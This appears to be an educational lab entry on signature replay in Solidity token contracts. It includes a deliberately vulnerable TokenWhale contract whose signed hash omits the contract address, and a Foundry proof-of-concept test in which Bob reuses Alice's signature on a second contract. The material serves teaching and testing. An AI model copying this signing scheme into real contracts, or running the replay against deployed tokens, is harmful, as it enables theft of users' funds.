

#  Signature replay  
[SignatureReplay.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol)  
**Name:** Signature Replay Vulnerability

**Description:**  
In this scenario, Alice signs a transaction that allows Bob to transfer tokens from Alice's accountto Bob's account. 

Bob then replays this signature on multiple contracts (in this case, the TokenWhale and SixEyeToken contracts), each time authorizing the transfer of tokens from Alice's account to his. This is possible because the contracts use the same methodology for signing and validating transactions, but they do not share a nonce to prevent replay attacks.

Missing protection against signature replay attacks, Same signature can be used multiple times to execute a function.

**Mitigation:**  
Replay attacks can be prevented by implementing a nonce, a number that is only used once, into the signing and verification process.

**REF**:

https://medium.com/cryptronics/signature-replay-vulnerabilities-in-smart-contracts-3b6f7596df57

https://medium.com/cypher-core/replay-attack-vulnerability-in-ethereum-smart-contracts-introduced-by-transferproxy-124bf3694e25

**TokenWhale** **Contract:**  
```
contract TokenWhale is Test {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    mapping(address => uint256) nonces;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 2000;
        balanceOf[player] = 2000;
    }

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    function transferProxy(
        address _from,
        address _to,
        uint256 _value,
        uint256 _feeUgt,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public returns (bool) {
        uint256 nonce = nonces[_from];
        emit log_named_uint("nonce", nonce);
        bytes32 h = keccak256(
            abi.encodePacked(_from, _to, _value, _feeUgt, nonce)
        );
        if (_from != ecrecover(h, _v, _r, _s)) revert();

        if (
            balanceOf[_to] + _value < balanceOf[_to] ||
            balanceOf[msg.sender] + _feeUgt < balanceOf[msg.sender]
        ) revert();
        balanceOf[_to] += _value;

        balanceOf[msg.sender] += _feeUgt;

        balanceOf[_from] -= _value + _feeUgt;
        nonces[_from] = nonce + 1;
        return true;
    }
}
```
**How to Test:**

forge test --contracts src/test/**SignatureReplay.sol** -vvvv
```
// A function to demonstrate a replay attack using token contracts.
function testSignatureReplay() public {
    // Emit the current balance of the contract.
    emit log_named_uint(
        "Balance",
        TokenWhaleContract.balanceOf(address(this))
    );

    // Generate a unique hash from the input data.
    bytes32 hash = keccak256(
        abi.encodePacked(
            address(alice),
            address(bob),
            uint256(499),
            uint256(1),
            uint256(0)
        )
    );

    // Log the hash.
    emit log_named_bytes32("hash", hash);

    // Sign the hash with the private key of the address.
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

    // Log the signature components.
    emit log_named_uint("v", v);
    emit log_named_bytes32("r", r);
    emit log_named_bytes32("s", s);

    // Recover the signer's address from the signature.
    address alice_address = ecrecover(hash, v, r, s);

    // Log the signer's address.
    emit log_named_address("alice_address", alice_address);

    // Notify the possible attack.
    emit log_string(
        "If attacker got the Alice's signature, the attacker can replay this signature on the others contracts with same method."
    );

    // Bob becomes the prankster.
    vm.startPrank(bob);

    // Bob uses Alice's signature to transfer tokens from Alice's account to his account.
    TokenWhaleContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's new balance.
    emit log_named_uint(
        "SET token balance of Bob",
        TokenWhaleContract.balanceOf(address(bob))
    );

    // Log the next step of the attack.
    emit log_string(
        "Try to replay to another contract with same signature"
    );

    // Log Bob's balance in another token before the replay.
    emit log_named_uint(
        "Before the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob uses Alice's signature to transfer tokens in a different contract.
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's new balance in the second contract.
    emit log_named_uint(
        "After the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob attempts to replay the attack on the same contract, but this fails due to the nonce check.
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's balance after the second attempt.
    emit log_named_uint(
        "After the second replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );
}
```
Red box: signature replayed.
